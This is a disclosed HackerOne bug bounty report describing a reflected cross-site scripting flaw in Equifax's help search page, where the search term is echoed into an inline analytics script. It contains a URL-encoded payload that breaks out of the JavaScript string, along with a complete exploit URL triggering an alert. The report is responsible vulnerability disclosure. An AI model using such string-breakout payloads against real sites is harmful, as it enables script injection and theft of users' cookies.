 # reflected XSS in [www.equifax.com]

## Report Details
- **Report ID**: 1818163
- **URL**: https://hackerone.com/reports/1818163
- **State**: Closed
- **Severity**: medium
- **Submitted**: 2022-12-28T19:33:35.566Z
- **Disclosed**: 2023-04-23T12:41:20.748Z

## Reporter
- **Username**: abdoubouanik
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: equifax

## Vulnerability Information
hi , I hope you are well, i found reflected XSS in this endpoint:
```https://www.equifax.com/personal/help/search?search=broook```



###Steps:
1.  open ```https://www.equifax.com/personal/help/search?search=broook```
2. view the source code of the page and search for word  ```broook```  you will find that it reflected in the source code:
{F2094830}



3. ```broook``` word reflected in javascript code:
```
<script type="text/javascript">
           window.onload = function(e){
            	Analytics.trackEvent('emptySearch',{internalSearchTerm: "broook" , numOfSearchResultsReturned: 0});
            	}
           </script>
```


-

-



4. By using this payload ```%22%20%2C%20internalSearchTerm%3A%20%5B7%5D.map%28alert%29%20%2C%20numOfSearchResultsReturned%3A%20%22b```  , I  modified the parameters of the ```Analytics.trackEvent``` function to be like this:
```
<script type="text/javascript">
	      window.onload = function(e){
	          Analytics.trackEvent('SEARCHRETURNED',{internalSearchTerm: "" , internalSearchTerm: [7].map(alert) , numOfSearchResultsReturned: "b" , numOfSearchResultsReturned: 167});            	
	               	}
	     </script>

```
{F2094863}

-
-

5. the following is the link with my XSS payload :   https://www.equifax.com/personal/help/search?search=%22%20%2C%20internalSearchTerm%3A%20%5B7%5D.map%28alert%29%20%2C%20numOfSearchResultsReturned%3A%20%22b


{F2094867}

## Impact

an attacker can exeute JS codes on the victims and this could be steal user's cookies

## Attachments
- Screenshot_2022-12-28_19-46-38.png
- Screenshot_2022-12-28_20-20-28.png
- Screenshot_2022-12-28_20-15-53.png
